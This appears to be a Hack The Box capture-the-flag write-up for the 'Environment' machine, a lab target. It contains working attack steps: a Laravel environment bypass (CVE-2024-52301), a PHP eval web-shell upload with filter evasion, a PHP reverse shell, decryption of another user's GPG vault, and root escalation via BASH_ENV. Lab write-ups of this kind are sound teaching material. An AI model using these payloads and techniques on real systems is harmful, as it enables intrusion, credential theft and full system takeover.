


Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.67 -oN ../nmap/initial
```
```Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Save the Environment | environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's go to the website


<div style="page-break-after: always;"></div>

Scan for other directories
```bash
gobuster dir -u http://environment.htb/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If we go to the directory with code `405`, we will see the following:


Let's check deeper for the presence of `php, asp, aspx, jsp, html, htm` files:
```bash
dirsearch -u http://environment.htb
```


Let's try to log in and intercept the request


There is `&remember=False`. Let's try removing it and sending the request.


We can see that `remember` must be included in the request. Let's try leaving it, but instead of `True` or `False`, we'll write `111`.


There is an interesting block of code here that says `login directly as me in dev/local/preprod envs`. Further down in the code, it says that if the current environment in Laravel is `predprod`, the user automatically logs in with `user_id=1`. Let's try to find something about this on the internet.


We can see that this is `CVE-2024-52301`. Let's try to find `PoC` on `Github`:


This [repository](https://github.com/Nyamort/CVE-2024-52301) states that to change the current environment, you need to add `?--env=...` to the URL. In our case, we need to add `?--env=preprod`.


It is possible to upload an image to change the profile avatar. Let's try to upload an image and intercept the request:


We will also capture the request that loads the image when the profile is loaded:


>/storage/files/image.png

Let's try to load a PHP file:
```PHP
<?php eval($_GET[“cmd”]);?>
```


Let's change `Content-Type: application/x-php` to `Content-Type: image/jpg`, `filename=“eval-exploit.php”` to `filename=“eval-exploit.php.” ` and add some content before the PHP code to show that it is an image, for example `GIF89a`


Now let's go to the address and check if the PHP file works:
```USR
http://environment.htb/storage/files/eval-exploit.php?cmd=phpinfo();
```



Now let's try to download [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php)


Start listening to the port and go to the URL to open the PHP file
```URL
http://environment.htb//storage/files/reverse-shell.php
```
```bash
sudo ncat -lvnp 4444
```
Find the first flag


Spawn a normal TTY:
```bash
python3 -c 'import pty,os,sys; pty.spawn(“/bin/bash”)'
```
Next, let's see what's interesting in `/var/www/`:


There is a hash for the user `Hish`:
```hash
$2y$12$------------------------------------------------------------------------------9ILcC7akZ.q641r1gi
```
In the home directory `Hish` there is a directory `backup`, which contains the file `keyvault.gpg`.


`.gpg` is an object in **OpenPGP** format. 

| Type                       | Description                                                                         | How to identify                                                                                                  |
| ------------------------- | ------------------------------------------------- ------------------------------- | ------------------------------------------------------------------- -------------------------------------------- |
| **Encrypted container** | Any file (zip, tar, txt, etc.) has been encrypted with someone's PGP key or password. | `file keyvault.gpg` outputs “data” or “PGP symmetric encrypted data” / “PGP public key encrypted session key”. |
| **Key vault**    | Contains the PGP key itself (public or private). | `gpg --list-packets keyvault.gpg` will show the `public key` / `secret key` packets. |
Let's look at the contents of the home directory `hish`:


There is a directory called `.gnupg`, which contains the **secret OpenPGP keys** of `hish` itself. When a file is encrypted with a user's public key, **only** the holder of their private key can decrypt it.
Copy this directory to `/tmp/mygpg` and change the access to this directory to `700` so that the directory is inaccessible to others; otherwise, it will refuse to work.
```bash
cp -r .gnupg /tmp/mygpg
```
```bash
chmod -R 700 /tmp/mygpg
```


Specify a new home directory for this directory and display the secret keys.
```bash
gpg --homedir /tmp/mygpg --list-secret-keys
```



The private key is indeed there and **without a passphrase**. Next, we will decrypt it and write the result to `/tmp/message.txt`:
```bash
gpg --homedir /tmp/mygpg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```
The `keyvault.gpg` file was encrypted **with hish's public key** (or symmetrically with the same password that is already in the agent). GPG found the right secret key and decrypted it.


Now there are 3 passwords. Let's try to connect to `hish` via SSH:


The password is correct
```Password
ma-------@ster!!
```
Now let's see what commands a user with `sudo` can execute:
```bash
sudo -l
```


`sudo` resets almost all environment variables (`env_reset`), **but** an exception `env_keep+=“ENV BASH_ENV”` was left in sudoers.
`/usr/bin/systeminfo` is just a bash script.


Bash help says: if a script is run non-interactively **and there is `BASH_ENV` in the environment, bash executes the contents of the specified file before the script starts**. So, it is enough to replace `BASH_ENV` so that **your code is executed as root before the script starts running**.
Let's create a malicious script:
```bash
echo ‘bash -p’ > /tmp/rootme.sh
chmod +x /tmp/rootme.sh
```
Specify it in `BASH_ENV`:
```bash
export BASH_ENV=/tmp/rootme.sh
```
Run the authorized script:
```bash
sudo /usr/bin/systeminfo
```


